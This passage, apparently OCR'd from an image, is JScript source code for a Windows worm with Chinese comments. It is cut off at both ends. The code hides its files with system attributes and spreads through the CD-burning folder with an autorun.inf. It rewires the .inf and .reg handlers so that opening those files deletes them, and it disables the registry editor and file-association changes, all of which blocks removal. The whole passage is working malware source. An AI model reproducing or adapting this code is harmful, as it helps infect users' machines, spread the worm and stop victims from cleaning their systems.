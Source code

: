             if (GetExtensionName(filename) != 'jse') {
                // 设置文件属性为 'ReadOnly | Hidden | System | Archive'
                SetFileNewAttributes(filename, 39);
            }
        }
    }
}

function InfectCDBuring() {
    try {
        var e9hgn = shell.RegRead('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders\\CD Burning');
        CopyScriptFile(e9hgn + '\\annie.ani');
        CreateAutoRunFile(e9hgn + '\\autorun.inf');
    } catch (e) {}
}

function DeleteFolder(filename) {
    try {
        fso.DeleteFolder(filename, true);
    } catch (e) {
        shell.Run('cmd.exe /c rd /s /q \\\\.\\"' + filename + '"', 0, true);
    }
}

function InfectReg() {
    try {
        // 删除右键打开方式
        shell.RegDelete('HKCR\\*\\shellex\\ContextMenuHandlers\\Open With\\');
    } catch (e) {}
    try {
        // 修改'.inf'文件安装方式，安装配置文件时删除配置文件
        shell.RegWrite('HKCR\\' + RegReadItem('.inf') + '\\shell\\Install\\command\\', 'cmd.exe /c del /q /f "%1"', 'REG_EXPAND_SZ');
    } catch (e) {}
    try {
        // 修改'.jse'文件的打开方式
        shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\Shell\\Edit\\Command\\', RegReadItem(RegReadItem('.JSE') + '\\Shell\\Open\\Command\\'), 'REG_EXPAND_SZ');
    } catch (e) {}
    try {
        shell.RegDelete('HKCR\\' + RegReadItem('.JSE') + '\\Shell\\Open2\\');
    } catch (e) {}
    try {
        shell.RegDelete('HKCR\\' + RegReadItem('.JSE') + '\\Shell\\Open2\\Command\\');
    } catch (e) {}
    try {
        shell.RegDelete('HKCR\\' + RegReadItem('.JSE') + '\\ShellEx\\PropertySheetHandlers\\WSHProps\\');
    } catch (e) {}
    try {
        // 修改'.reg'文件的打开方式，打开即删除
        shell.RegWrite('HKCR\\' + RegReadItem('.reg') + '\\shell\\open\\command\\', 'cmd.exe /c del /q /f "%1"', 'REG_EXPAND_SZ');
    } catch (e) {}
    try {
        // 禁止用户修改文件属性
        shell.RegWrite('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoFileAssociate', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用注册表编辑器
        shell.RegWrite('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools', '1', 'REG_DWORD');
    } catch (e) {}
    try {